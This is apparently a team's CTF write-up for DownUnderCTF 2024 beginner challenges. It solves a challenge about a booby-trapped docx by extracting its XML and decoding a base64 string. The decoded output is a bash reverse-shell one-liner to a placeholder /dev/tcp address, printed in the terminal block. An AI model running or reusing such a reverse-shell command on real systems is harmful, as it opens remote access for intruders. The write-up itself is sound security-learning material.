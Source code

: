 ```yaml
---
title: DownUnderCTF
time: 2024-07-07 12:00:00
categories: [CTF, WriteUps]
tags: [CTF, WriteUps]
image: /assets/posts/DownUnderCTF/0.png
---
```


Well, now and then, we come across a big CTF like this. Starting out late, let’s see how it goes.

```bash
Authors: AbuCTF, MrRobot, SHL, MrGhost, PattuSai, Rohmat
```
Okay, but I have to post this LOL.

<img src="/assets/posts/DownUnderCTF/0-5.png" alt="p4" width="70%"/>

## **Beginner**

### **TLDR please summarize**

**Description**: 

I thought I was being 1337 by asking AI to help me solve challenges, now I have to reinstall Windows again. Can you help me out by find the flag in this document?

**Author**: Nosurf

Given: `EmuWar.Docx`

Straight away, I copy the `docx` file into a `zip` and extract. Going straight to `/word/document.xml` ,

cause that contains the actually content of the `docx` file. Opening in VS Code.

![1](/assets/posts/DownUnderCTF/1.png)

Onto to the pastebin site, we see a `base64` string decoding it, we get the flag.

```bash
┌──(abu㉿Abuntu)-[/mnt/c/Documents4/CyberSec/DUCTF/begin]
└─$ echo "YmFzaCAtaSA+JiAvZGV2L3RjcC8yNjEuMjYzLjI2My4yNjcvRFVDVEZ7Y2hhdGdwdF9JX24zM2RfMl8zc2NhcDN9IDA+JjE=" | base64 -d
bash -i >& /dev/tcp/261.263.263.267/DUCTF{chatgpt_I_n33d_2_3scap3} 0>&1
```

**Flag**: `DUCTF{chatgpt_I_n33d_2_3scap3}`

### **Shufflebox**

**Description**: 

I've learned that if you shuffle your text, it's elrlay hrda to tlle htaw eht nioiglra nutpi aws.

Find the text censored with question marks in `output_censored.txt` and surround it with `DUCTF{}`.
